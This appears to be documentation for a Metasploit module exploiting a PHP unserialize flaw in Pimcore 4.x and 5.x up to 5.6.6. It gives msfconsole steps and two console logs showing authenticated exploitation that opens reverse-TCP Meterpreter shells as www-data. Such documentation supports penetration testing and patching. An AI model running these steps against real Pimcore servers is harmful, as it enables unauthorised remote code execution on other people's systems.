 ## Description

This module exploits a PHP (unserialize()) in Pimcore before 5.7.1 to execute arbitrary code. An authenticated user with "classes" permission could exploit the vulnerability.

The vulnerability exists in the "ClassController.php" class, where the "bulk-commit" method make it possible to exploit the unserialize function when passing untrusted values in "data" parameter.

Tested on Pimcore 5.4.0-5.4.4, 5.5.1-5.6.6 with the Symfony unserialize payload.

Tested on Pimcore 4.0.0-4.6.5 with the Zend unserialize payload.

## Vulnerable Application

Affecting Pimcore, version 5.x <= 5.6.6 and 4.x.

## Verification Steps

Set up a default installation of Pimcore 4.x or 5.x (e.g.: `composer create-project pimcore/skeleton my-project` for the 5.x branch) as described on [Pimcore Installation documentation](https://pimcore.com/docs/5.x/Development_Documentation/Getting_Started/Installation.html) then:

1. Start `msfconsole`
2. `use exploit/multi/http/pimcore_unserialize_rce`
3. `set RHOST <IP>`
4. `set USERNAME <USERNAME>`
5. `set PASSWORD <PASSWORD>`
6. `check`
7. You should see `The target service is running, but could not be validated.`
8. `exploit`
9. You should get a meterpreter session!

## Options

* **TARGETURI**: Path to Pimcore installation (“/” is the default)
* **USERNAME**: Username to authenticate with
* **PASSWORD**: Password to authenticate with

## Scenario

### Tested on Pimcore 5.6.6

```
msf5 > use exploit/multi/http/pimcore_unserialize_rce 
msf5 exploit(multi/http/pimcore_unserialize_rce) > set rhost target.com
rhost => target.com
msf5 exploit(multi/http/pimcore_unserialize_rce) > set rport 8566
rport => 8566
msf5 exploit(multi/http/pimcore_unserialize_rce) > set username admin
username => admin
msf5 exploit(multi/http/pimcore_unserialize_rce) > set password pimcore
password => pimcore
msf5 exploit(multi/http/pimcore_unserialize_rce) > check
[*] 192.168.2.59:8566 - The target service is running, but could not be validated.
msf5 exploit(multi/http/pimcore_unserialize_rce) > exploit

[*] Started reverse TCP handler on 10.0.8.2:4444 
[+] Authentication successful: admin:pimcore
[*] Pimcore version: 5.6.6
[*] Pimcore build: 9722d19576f9e49969d4a3708e045fa481eaad02
[+] The target is vulnerable!
[+] JSON paylod uploaded successful: /var/www/html/var/tmp/bulk-import.tmp
[*] Selected payload: Pimcore 5.x (Symfony unserialize payload)
[*] Sending stage (38247 bytes) to 192.168.2.59
[*] Meterpreter session 1 opened (10.0.8.2:4444 -> 192.168.2.59:34128) at 2019-04-07 12:04:08 +0200
[!] This exploit may require manual cleanup of '/var/www/html/var/tmp/bulk-import.tmp' on the target

meterpreter > 
[+] Deleted /var/www/html/var/tmp/bulk-import.tmp

meterpreter > getuid
Server username: www-data (33)
meterpreter > quit
[*] Shutting down Meterpreter...

[*] 192.168.2.59 - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(multi/http/pimcore_unserialize_rce) > 
```

### Tested on Pimcore 4.6.5

```
msf5 > use exploit/multi/http/pimcore_unserialize_rce 
msf5 exploit(multi/http/pimcore_unserialize_rce) > set rhost target.com
rhost => target.com
msf5 exploit(multi/http/pimcore_unserialize_rce) > set rport 8465
rport => 8465
msf5 exploit(multi/http/pimcore_unserialize_rce) > set username admin
username => admin
msf5 exploit(multi/http/pimcore_unserialize_rce) > set password P1mc0r3_4dm1n
password => P1mc0r3_4dm1n
msf5 exploit(multi/http/pimcore_unserialize_rce) > check
[*] 192.168.2.59:8465 - The target service is running, but could not be validated.
msf5 exploit(multi/http/pimcore_unserialize_rce) > exploit

[*] Started reverse TCP handler on 10.0.8.2:4444 
[+] Authentication successful: admin:P1mc0r3_4dm1n
[*] Pimcore version: 4.6.5
[*] Pimcore build: 4123
[+] The target is vulnerable!
[+] JSON paylod uploaded successful: /var/www/html/website/var/system/bulk-import.tmp
[*] Selected payload: Pimcore 4.x (Zend unserialize payload)
[*] Sending stage (38247 bytes) to 192.168.2.59
[*] Meterpreter session 1 opened (10.0.8.2:4444 -> 192.168.2.59:57882) at 2019-04-07 12:00:20 +0200
[+] Deleted /var/www/html/website/var/system/bulk-import.tmp

meterpreter > getuid
Server username: www-data (33)
meterpreter > quit
[*] Shutting down Meterpreter...

[*] 192.168.2.59 - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(multi/http/pimcore_unserialize_rce) > 
```